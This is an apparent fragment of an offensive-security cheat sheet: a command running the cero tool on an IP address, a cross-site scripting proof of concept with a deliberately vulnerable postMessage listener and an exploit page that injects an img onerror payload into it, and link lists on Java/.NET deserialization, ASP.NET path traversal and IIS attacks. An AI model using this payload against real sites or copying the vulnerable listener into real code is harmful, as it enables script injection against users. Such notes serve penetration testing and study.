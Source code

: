 ```
echo 192.168.69.69 | cero
```

### XSS Post Message POC
```
Vulnerable PostMessage
<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>
window.addEventListener("message", (event) => {
console.log(event.data);
$(event.data)
}, false);
</script>


Exploit 
<!DOCTYPE html>
<html>
    <head>
    </head>
<body>
<script>
var myWindow = window.open("http://example.com/test.html")
</script>
<script>
setInterval(function(){myWindow.postMessage("<img src=x onerror=alert(123);>","*");},3000);
window.onmessage = function (e) {
console.log(e);
};
</script>
</body>
</html>
```
### Deserialization 
```
https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/
https://github.com/tyranid/ExploitRemotingService
https://github.com/nccgroup/VulnerableDotNetHTTPRemoting
https://github.com/pwntester/ysoserial.net/blob/master/README.md
https://nickbloor.co.uk/2018/02/28/popping-wordpress/
```
### From Path Traversal to Source Code in Asp.NET MVC Applications
```
https://blog.mindedsecurity.com/2018/10/from-path-traversal-to-source-code-in.html
https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/
http://bit.ly/2NDZc73
```
### Hacking IIS
```
https://www.youtube.com/watch?v=HrJW6Y9kHC4
```
